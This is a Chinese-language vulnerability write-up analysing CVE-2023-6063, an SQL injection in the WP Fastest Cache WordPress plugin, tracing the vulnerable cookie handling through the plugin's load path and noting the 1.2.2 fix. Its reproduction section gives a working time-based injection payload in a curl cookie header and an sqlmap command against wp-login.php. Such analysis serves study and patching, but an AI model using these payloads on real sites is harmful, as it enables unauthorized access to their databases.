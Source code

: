 

# CVE-2023-6063 分析|WordPress WP Fastest Cache 插件导致的 SQL 注入 - 先知社区

CVE-2023-6063 分析|WordPress WP Fastest Cache 插件导致的 SQL 注入

- - -

### 漏洞环境

● wordpress 版本无限制  
● WP Fastest Cache 插件 <1.2.2，这里使用 1.2.1 版本  
启用 WP Fastest Cache 插件，并启用“缓存系统”

[![](assets/1702866477-626aa05914ce7ca06b880c04272cb392.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213222532-7917171a-99c3-1.png)

漏洞点  
cache.php。调用在漏洞分析部分分析

[![](assets/1702866477-bf9f0123830af9522d28140f0533151a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230000-49924762-99c8-1.png)

public function is\_user\_admin(){  
global $wpdb;

```bash
foreach ((array)$_COOKIE as $cookie_key => $cookie_value){
    if(preg_match("/wordpress_logged_in/i", $cookie_key)){
        $username = preg_replace("/^([^\|]+)\|.+/", "$1", $cookie_value);
        break;
    }
}

if(isset($username) && $username){          
    $res = $wpdb->get_var("SELECT `$wpdb->users`.`ID`, `$wpdb->users`.`user_login`, `$wpdb->usermeta`.`meta_key`, `$wpdb->usermeta`.`meta_value` 
                           FROM `$wpdb->users` 
                           INNER JOIN `$wpdb->usermeta` 
                           ON `$wpdb->users`.`user_login` = \"$username\" AND 
                           `$wpdb->usermeta`.`meta_key` LIKE \"%_user_level\" AND 
                           `$wpdb->usermeta`.`meta_value` = \"10\" AND 
                           `$wpdb->users`.`ID` = `$wpdb->usermeta`.user_id ;"
                        );

    return $res;
}

return false;
```

}

### 漏洞复现

记得改 cookie 中 wordpress\_logged\_in 的字符串，如 wordpress\_logged\_in\_5bd7a9c61cda6e66fc921a05bc80ee93  
漏洞点在 cookie 的 wordpress\_logged\_in\_5bd7a9c61cda6e66fc921a05bc80ee93(会变) 参数处  
curl [https://example.com](https://example.com/) -H "Cookie: wordpress\_logged\_in=1234%22%20AND%20(SELECT%202537%20FROM%20(SELECT(SLEEP(5)))Sazm)%20AND%20%22qzts%22=%22qzts"

sqlmap 证明：  
python sqlmap.py --dbms=mysql -u "[http://your-url/wp-login.php](http://your-url/wp-login.php)" --cookie='wordpress\_logged\_in\_732bf205f063fd120b84d8a0d44e2d5d=\*' --level=2 --current-user

[![](assets/1702866477-5b3a8a10a5cf3ea7ca52c3713a249e29.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230021-564dd444-99c8-1.png)

### 漏洞分析

简单说就是在加载插件时，取 wordpress\_logged\_in 第一个 | 前的字符，然后插入到 SQL 语句中。  
而这样也是可以匹配的，即 payload

[![](assets/1702866477-1a5f049c04a16ed30321a8acf80e27c8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230031-5c24f21c-99c8-1.png)

[![](assets/1702866477-f808862a038e492e26632509c9ed06e8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230038-609225a4-99c8-1.png)

wordpress\_logged\_in\_5bd7a9c61cda6e66fc921a05bc80ee93 内容如下：  
wordpress|1702575454|gquEYSZ8lNbJktLUWLpElq4XybIhpPmOL3MmTMcqi4X|91c52c9d088ad036d8ccdc6ef645adfd906829527d27ea494140369cdbfbb1b9  
这一部分的功能就是取出 wordpress

[![](assets/1702866477-167e1be5ecf07b62e55459a854f59743.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230052-68a16188-99c8-1.png)

然后没有过滤就进入了 SQL 语句中

[![](assets/1702866477-b515e46cd684b2bff1f61e86010caae4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230102-6ea23f8a-99c8-1.png)

is\_user\_admin() 被 createCache() 调用

[![](assets/1702866477-91329269039bd1e5381ed861b67cf030.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230128-7e7f2cba-99c8-1.png)

追踪 createCache()，被 cache() 调用

[![](assets/1702866477-848cc98c8476f8eea8f4cf7d381d8589.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230142-86752a8c-99c8-1.png)

[![](assets/1702866477-72063633aa3f6595ca1b4afc42bcc6fb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230148-8a0f8bb0-99c8-1.png)

看 cache() 在何处被调用，发现被构造函数调用，即在 WpFastestCache 对象被创建时调用

[![](assets/1702866477-db6751b777f967bdb09696cdc7ef9ce9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230155-8e1020f8-99c8-1.png)

[![](assets/1702866477-7d1304d0f30f504d0682018531b2cb3e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230201-91a045cc-99c8-1.png)

这两处创建了对象，看谁包含了 wpFastestCache.php，继续跟，跟到 plugin.php，大概就是插件加载时调用的

[![](assets/1702866477-1d165b8b459d87a615552d88902c0f67.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230220-9ceff04e-99c8-1.png)

[![](assets/1702866477-4e417726c80006baf42550f9124c09b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230225-a0258ecc-99c8-1.png)

[![](assets/1702866477-ed959346df00fcb1d1ab51caf92937cb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230230-a3498df6-99c8-1.png)

### 漏洞修复

WP Fastest Cache 插件 1.2.2，修复了此漏洞

[![](assets/1702866477-46c5ef5b632e29c23bb794e2d0bb6514.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230239-a8b4fe2e-99c8-1.png)

对参数进行了过滤

[![](assets/1702866477-005f6282df003c301fd2d87b68b4dd12.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230250-af523814-99c8-1.png)

[![](assets/1702866477-0311fcc54ddaa3fbabd059933afabbcf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213230257-b3177f86-99c8-1.png)
